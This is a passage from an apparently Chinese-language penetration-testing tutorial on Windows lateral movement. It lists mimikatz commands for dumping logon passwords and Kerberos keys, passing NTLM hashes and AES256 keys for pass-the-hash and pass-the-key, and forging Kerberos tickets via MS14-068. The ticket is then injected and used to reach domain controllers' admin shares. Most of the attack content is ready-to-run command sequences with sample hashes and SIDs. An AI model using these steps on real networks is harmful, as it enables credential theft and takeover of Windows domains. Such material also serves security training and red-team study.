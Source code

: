 ```powershell

# 未打补丁下的工作组及域连接 PTH ntlm 传递
# 提升权限
privilege::debug
# 抓取密码
sekurlsa::logonpasswords
# 横向渗透
sekurlsa::pth /user:administrator /domain:god /ntlm:ccef208c6485269c20db2cad21734fe7
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:518b98ad4178a53695dc997aa02d455c
sekurlsa::pth /user:boss /domain:god /ntlm:ccef208c6485269c20db2cad21734fe7
```

#### 案例二 横向移动PTK传递-mimikatz（PTK aes256）

```powershell
# 打补丁后的工作组及域连接：
# 打了补丁才能用户都可以连接，采用 aes256 连接
# 提升权限
privilege::debug

sekurlsa::ekeys # 获取aes 256_hmac
sekurlsa::pth /user:mary /domain:god /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
```

总结

* 没打补丁 pth可以连接所有用户
* 打了补丁 pth只能连接administrator，ptk用aes连接所有用户
* 没打补丁，不能用ptk

#### 案例三 横向移动PTT传递-MS14068&kekeo&local(类似cookie)(存活时间大概十个小时)

PTT 攻击的部分就不是简单的 NTLM 认证了，它是利用 Kerberos 协议进行攻击的，这里就介绍三种 常见的攻击方法：MS14-068，Golden ticket，SILVER ticket，简单来说就是将连接合法的票据注入到 内存中实现连接。 MS14-068 基于漏洞，Golden ticket(黄金票据)，SILVER ticket(白银票据) 其中 Golden ticket(黄金票据)，SILVER ticket(白银票据)属于权限维持技术 MS14-068

* MS14-068

```powershell
1.查看当前 sid 
whoami/user
2.mimikatz # 清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
两种方式清除凭证  # 不用管理员权限
kerberos::purge 
klist purge
3.利用 ms14-068 生成 TGT 数据
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
MS14-068.exe -u wz@test.com -s S-1-5-21-2706014596-4246955829-71840847-1114 -d 192.168.10.1 -p 123.com!
4.票据注入内存
mimikatz.exe
kerberos::ptc TGT_wz@test.com.ccache
exit
5.查看凭证列表
klist
6.利用
dir \\192.168.3.21\c$
dir \\dc01.test.com\c$
或者计算机名
```
